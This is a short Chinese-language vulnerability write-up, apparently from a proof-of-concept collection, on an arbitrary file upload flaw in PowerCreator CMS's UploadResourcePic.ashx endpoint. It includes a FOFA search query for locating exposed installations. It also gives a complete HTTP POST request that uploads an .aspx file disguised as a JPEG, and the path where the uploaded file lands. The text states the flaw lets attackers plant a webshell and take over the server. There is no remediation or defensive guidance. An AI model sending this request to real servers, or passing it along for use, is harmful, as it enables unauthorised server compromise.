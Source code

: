 ## PowerCreator接口UploadResourcePic.ashx存在任意文件上传漏洞

PowerCreator接口 UploadResourcePic.ashx存在任意文件上传漏洞。攻击者可利用该漏洞上传webshell，获得服务器权限。

## fofa

```yaml
app="PowerCreator-CMS"
```

![image-20240711194543726](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407111945851.png)

## poc

```yaml
POST /upload/UploadResourcePic.ashx?ResourceID=8382 HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/17.3.1 Safari/605.1.1517.3.1 Ddg/17.3.1
Connection: close
Content-Length: 246
Content-Disposition: form-data;name="file1";filename="poc.aspx";
Content-Type: multipart/form-data; boundary=---------------------------20873900192357278038549710136
Accept-Encoding: gzip, deflate

-----------------------------20873900192357278038549710136
Content-Disposition: form-data; name="file1"; filename="111.aspx"
Content-Type: image/jpeg

11111
-----------------------------20873900192357278038549710136--
```

![image-20240711194442981](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407111944029.png)

文件路径 `http://127.0.0.1/ResourcePic/ODM4Mg==.ASPX`

![image-20240711194519399](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407111945443.png)